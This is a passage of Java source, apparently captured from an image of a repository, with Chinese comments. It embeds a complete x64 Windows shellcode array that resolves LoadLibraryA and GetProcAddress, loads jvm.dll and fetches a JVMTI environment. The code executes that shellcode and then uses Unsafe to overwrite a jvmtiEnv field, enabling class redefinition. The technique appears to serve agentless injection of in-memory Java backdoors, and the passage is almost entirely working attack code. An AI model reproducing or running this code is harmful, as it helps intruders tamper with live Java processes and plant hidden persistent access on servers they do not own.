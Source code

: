 ```java
            byte[] shellCode = new byte[]{(byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x28, (byte) 0x48, (byte) 0x83, (byte) 0xE4, (byte) 0xF0, (byte) 0x48, (byte) 0x31, (byte) 0xC9, (byte) 0x65, (byte) 0x48, (byte) 0x8B, (byte) 0x41, (byte) 0x60, (byte) 0x48, (byte) 0x8B, (byte) 0x40, (byte) 0x18, (byte) 0x48, (byte) 0x8B, (byte) 0x70, (byte) 0x20, (byte) 0x48, (byte) 0xAD, (byte) 0x48, (byte) 0x96, (byte) 0x48, (byte) 0xAD, (byte) 0x48, (byte) 0x8B, (byte) 0x58, (byte) 0x20, (byte) 0x4D, (byte) 0x31, (byte) 0xC0, (byte) 0x44, (byte) 0x8B, (byte) 0x43, (byte) 0x3C, (byte) 0x4C, (byte) 0x89, (byte) 0xC2, (byte) 0x48, (byte) 0x01, (byte) 0xDA, (byte) 0x44, (byte) 0x8B, (byte) 0x82, (byte) 0x88, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x49, (byte) 0x01, (byte) 0xD8, (byte) 0x48, (byte) 0x31, (byte) 0xF6, (byte) 0x41, (byte) 0x8B, (byte) 0x70, (byte) 0x20, (byte) 0x48, (byte) 0x01, (byte) 0xDE, (byte) 0x48, (byte) 0x31, (byte) 0xC9, (byte) 0x49, (byte) 0xB9, (byte) 0x47, (byte) 0x65, (byte) 0x74, (byte) 0x50, (byte) 0x72, (byte) 0x6F, (byte) 0x63, (byte) 0x41, (byte) 0x48, (byte) 0xFF, (byte) 0xC1, (byte) 0x48, (byte) 0x31, (byte) 0xC0, (byte) 0x8B, (byte) 0x04, (byte) 0x8E, (byte) 0x48, (byte) 0x01, (byte) 0xD8, (byte) 0x4C, (byte) 0x39, (byte) 0x08, (byte) 0x75, (byte) 0xEF, (byte) 0x48, (byte) 0x31, (byte) 0xF6, (byte) 0x41, (byte) 0x8B, (byte) 0x70, (byte) 0x24, (byte) 0x48, (byte) 0x01, (byte) 0xDE, (byte) 0x66, (byte) 0x8B, (byte) 0x0C, (byte) 0x4E, (byte) 0x48, (byte) 0x31, (byte) 0xF6, (byte) 0x41, (byte) 0x8B, (byte) 0x70, (byte) 0x1C, (byte) 0x48, (byte) 0x01, (byte) 0xDE, (byte) 0x48, (byte) 0x31, (byte) 0xD2, (byte) 0x8B, (byte) 0x14, (byte) 0x8E, (byte) 0x48, (byte) 0x01, (byte) 0xDA, (byte) 0x48, (byte) 0x89, (byte) 0xD7, (byte) 0xB9, (byte) 0x61, (byte) 0x72, (byte) 0x79, (byte) 0x41, (byte) 0x51, (byte) 0x48, (byte) 0xB9, (byte) 0x4C, (byte) 0x6F, (byte) 0x61, (byte) 0x64, (byte) 0x4C, (byte) 0x69, (byte) 0x62, (byte) 0x72, (byte) 0x51, (byte) 0x48, (byte) 0x89, (byte) 0xE2, (byte) 0x48, (byte) 0x89, (byte) 0xD9, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x30, (byte) 0xFF, (byte) 0xD7, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x30, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x10, (byte) 0x48, (byte) 0x89, (byte) 0xC6, (byte) 0xB9, (byte) 0x6C, (byte) 0x6C, (byte) 0x00, (byte) 0x00, (byte) 0x51, (byte) 0xB9, (byte) 0x6A, (byte) 0x76, (byte) 0x6D, (byte) 0x00, (byte) 0x51, (byte) 0x48, (byte) 0x89, (byte) 0xE1, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x30, (byte) 0xFF, (byte) 0xD6, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x30, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x10, (byte) 0x49, (byte) 0x89, (byte) 0xC7, (byte) 0x48, (byte) 0x31, (byte) 0xC9, (byte) 0x48, (byte) 0xB9, (byte) 0x76, (byte) 0x61, (byte) 0x56, (byte) 0x4D, (byte) 0x73, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x51, (byte) 0x48, (byte) 0xB9, (byte) 0x72, (byte) 0x65, (byte) 0x61, (byte) 0x74, (byte) 0x65, (byte) 0x64, (byte) 0x4A, (byte) 0x61, (byte) 0x51, (byte) 0x48, (byte) 0xB9, (byte) 0x4A, (byte) 0x4E, (byte) 0x49, (byte) 0x5F, (byte) 0x47, (byte) 0x65, (byte) 0x74, (byte) 0x43, (byte) 0x51, (byte) 0x48, (byte) 0x89, (byte) 0xE2, (byte) 0x4C, (byte) 0x89, (byte) 0xF9, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x28, (byte) 0xFF, (byte) 0xD7, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x28, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x18, (byte) 0x49, (byte) 0x89, (byte) 0xC7, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x28, (byte) 0x48, (byte) 0x89, (byte) 0xE1, (byte) 0xBA, (byte) 0x01, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x49, (byte) 0x89, (byte) 0xC8, (byte) 0x49, (byte) 0x83, (byte) 0xC0, (byte) 0x08, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x28, (byte) 0x41, (byte) 0xFF, (byte) 0xD7, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x28, (byte) 0x48, (byte) 0x8B, (byte) 0x09, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x20, (byte) 0x54, (byte) 0x48, (byte) 0x89, (byte) 0xE2, (byte) 0x4D, (byte) 0x31, (byte) 0xC0, (byte) 0x4C, (byte) 0x8B, (byte) 0x39, (byte) 0x4D, (byte) 0x8B, (byte) 0x7F, (byte) 0x20, (byte) 0x49, (byte) 0x89, (byte) 0xCE, (byte) 0x41, (byte) 0xFF, (byte) 0xD7, (byte) 0x4C, (byte) 0x89, (byte) 0xF1, (byte) 0x48, (byte) 0xBA, (byte) 0x48, (byte) 0x47, (byte) 0x46, (byte) 0x45, (byte) 0x44, (byte) 0x43, (byte) 0x42, (byte) 0x41, (byte) 0x41, (byte) 0xB8, (byte) 0x00, (byte) 0x02, (byte) 0x01, (byte) 0x30, (byte) 0x4D, (byte) 0x8B, (byte) 0x3E, (byte) 0x4D, (byte) 0x8B, (byte) 0x7F, (byte) 0x30, (byte) 0x48, (byte) 0x83, (byte) 0xEC, (byte) 0x20, (byte) 0x41, (byte) 0xFF, (byte) 0xD7, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x20, (byte) 0x4C, (byte) 0x89, (byte) 0xF1, (byte) 0x4D, (byte) 0x8B, (byte) 0x3E, (byte) 0x4D, (byte) 0x8B, (byte) 0x7F, (byte) 0x28, (byte) 0x41, (byte) 0xFF, (byte) 0xD7, (byte) 0x48, (byte) 0x83, (byte) 0xC4, (byte) 0x78, (byte) 0xC3};
            byte[] stub = longToLittleEndianBytes(JPLISAgent + pointerLength,pointerLength); //将JVMTIEnv的地址转为小端字节序列
            System.arraycopy(stub, 0, shellCode, shellCode.length - 50, stub.length); //替换shellcode中用于接收JVMTIEnv结构体的地址
            runShellCode(shellCode); //执行shellCode，获取JPLISAgent结构体
            long jvmtiEnv = this.unsafe.getLong(JPLISAgent + pointerLength); //读取JPLISAgent结构体中的jvmtiEnv结构体的地址
            this.unsafe.putByte(jvmtiEnv + 361, (byte) 2); //修正jvmtiEnv结构体can_redefine_classes成员为2，相当于开启Can-Redefine-Classes，不同JDK版本偏移量不一样
            return JPLISAgent;
        }
        else{
            int pointerLength = 4;
```